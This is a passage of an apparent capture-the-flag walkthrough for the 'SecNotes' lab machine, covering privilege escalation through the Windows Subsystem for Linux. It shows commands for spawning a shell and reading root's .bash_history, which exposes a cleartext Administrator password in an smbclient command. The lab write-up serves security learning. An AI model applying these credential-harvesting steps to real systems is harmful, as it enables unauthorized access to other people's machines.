 ### Privesc

After looking around the box for a bit, I found that the Linux subsystem is installed. I noticed a Distros directory, Ubuntu then found bash.exe in `C:\Windows\System32`.

```
C:\>dir
06/21/2018  03:07 PM    <DIR>          Distros
[...]
```

```
C:\Distros\Ubuntu>
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Distros\Ubuntu

06/21/2018  05:59 PM    <DIR>          .
06/21/2018  05:59 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  32,431,472,640 bytes free
```

```
C:\Windows\System32>dir bash.exe
06/21/2018  02:02 PM           115,712 bash.exe
```

After starting bash and looking around the system, we find the `Administrator` credentials in root's `.bash_history` file:
```
C:\Windows\System32>bash
mesg: ttyname failed: Inappropriate ioctl for device
python -c 'import pty;pty.spawn("/bin/bash")'
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```